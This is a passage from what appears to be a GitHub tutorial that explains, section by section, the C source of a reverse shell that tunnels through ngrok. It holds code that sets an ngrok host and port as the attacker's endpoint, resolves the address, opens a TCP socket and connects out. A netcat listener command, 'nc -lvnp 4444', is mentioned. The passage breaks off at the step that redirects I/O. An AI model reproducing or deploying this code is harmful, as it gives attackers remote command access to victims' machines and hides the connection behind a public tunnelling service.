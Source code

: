 
### 2. Target Host and Port

```c
const char *hostname = "0.tcp.ap.ngrok.io";
const char *port = "12163";
```

* ngrok gives a **public hostname** and port after you run `ngrok tcp 4444`.
* These values replace the attacker’s IP/port in a traditional reverse shell.





---

### 3. Address Resolution

```c
struct addrinfo hints, *res;
memset(&hints, 0, sizeof(hints));
hints.ai_family = AF_INET;       // IPv4
hints.ai_socktype = SOCK_STREAM; // TCP

int status = getaddrinfo(hostname, port, &hints, &res);
```

* `getaddrinfo()` converts the hostname and port into a usable socket address structure.
* This allows connecting to **hostnames** (like ngrok URLs), not just raw IPs.

---

### 4. Creating the Socket

```c
sockfd = socket(res->ai_family, res->ai_socktype, res->ai_protocol);
```

* Opens a TCP socket.
* Returns a file descriptor representing the connection endpoint.

---

### 5. Connecting to Remote Host

```c
connect(sockfd, res->ai_addr, res->ai_addrlen);
```

* Establishes a TCP connection to ngrok’s server.
* If successful, any data sent to ngrok is forwarded to your local listener (e.g., `nc -lvnp 4444`).

---

### 6. Redirecting I/O
